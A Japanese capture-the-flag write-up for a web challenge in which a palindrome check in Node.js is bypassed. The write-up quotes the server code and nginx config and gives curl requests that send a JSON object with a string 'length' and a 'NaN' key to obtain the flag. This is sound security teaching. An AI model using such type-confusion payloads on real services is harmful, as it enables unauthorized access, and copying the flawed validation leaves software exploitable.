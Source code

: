 # Upside-down cake:web:100pts
設定が正しいか、413回チェックしました。  

[http://34.84.176.251:12349](http://34.84.176.251:12349)  

初心者向けヒント  
- とりあえず、上のリンクを開いて、適当に操作してみてください。この問題は「非常に長い回文」をサーバーに送ることでフラグが手に入ると主張していますが、話はそんなに単純ではないことがすぐに分かります。  
- 次に、添付したソースコードを読んでください。`main.mjs` や `nginx.conf` といったファイルにこのウェブサイトの重要なロジックが記述されています。`flag` という変数にフラグが保存されているので、この値をリークすることが目的となります。  
- これらのヒントを元に、「非常に長い回文」をサーバーに送るのではなく、何かしらのバグを突くことによってフラグを手に入れる方法を考えましょう。Web技術、特にJavaScriptについての知識が必要になるかもしれないので、必要に応じてMDNなどのドキュメントを参照してください。  
- なお、この問題を解くのに大量のアクセスをする必要はありません。ルールに書かれている通り、DoS まがいの大量アクセスはご遠慮ください。  

[upside-down_cake.tar.gz](upside-down_cake.tar.gz)  

# Solution
URLとソースコード一式が配布される。  
アクセスすると、"長い回文を送ればフラグが得られる"とある。  
![site1.png](site/site1.png)  
試しに`s`を100個送信すると、以下のように413 Request Entity Too Largeで怒られる。  
![site2.png](site/site2.png)  
ソースを見ると、main.mjsの主要部分は以下のようであった。  
```js
~~~
const flag = process.env.FLAG ?? 'DUMMY{DUMMY}';

const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}

const app = new Hono();

app.get('/', serveStatic({root: '.'}));

app.post('/', async (c) => {
	const {palindrome} = await c.req.json();
	const error = validatePalindrome(palindrome);
	if (error) {
		c.status(400);
		return c.text(error);
	}
	return c.text(`I love you! Flag is ${flag}`);
});
~~~
```
`string.length`が1000以上である回文を送ればフラグが得られるようだ。  
同じくソースのnginx.confを確認する。  
```conf
events {
	worker_connections 1024;
}

http {
	server {
		listen 0.0.0.0:12349;
		client_max_body_size 100;
		location / {
			proxy_pass http://app:12349;
			proxy_read_timeout 5s;
		}
	}
}
```
先ほどの413 Request Entity Too Largeは`client_max_body_size 100;`に引っかかっているようだ。  
bodyが100以下かつlengthが1000以上な回文の送信は不可能である。  
ここで、リクエストよりpalindromeのlengthを指定できないかと考える。  
```bash
$ curl -X POST -H "Content-Type: application/json" http://34.84.176.251:12349/ -d '{"palindrome":{"length": 1}}'
too short
$ curl -X POST -H "Content-Type: application/json" http://34.84.176.251:12349/ -d '{"palindrome":{"length": 1000}}'
not palindrome
```
応答よりlengthを任意の値に指定できているようだ。  
次に回文のチェック箇所だが、同じくpalindromeの添え字の数字を`{"palindrome":{"length": 1000, "0": "s", "999": "s"}}`のように指定してやればよい。  
ただし、lengthが1000である場合、大量の添え字を指定しなければならないためbodyが100以下であるという条件を満たせない。  
ここで、lengthを文字列にする場合を考える。  
`string.length < 1000`はfalseであり、`for (const i of Array(string.length).keys())`も0のみのループとなる。  
注意点として、`string.length - i - 1`がNaNとなるが、NaN自体を添え字として指定してやればよい。  
以下のように行う。  
```bash
$ curl -X POST -H "Content-Type: application/json" http://34.84.176.251:12349/ -d '{"palindrome":{"length": "s", "0": "s", "NaN": "s"}}'
I love you! Flag is TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}
```
flagが得られた。  

## TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}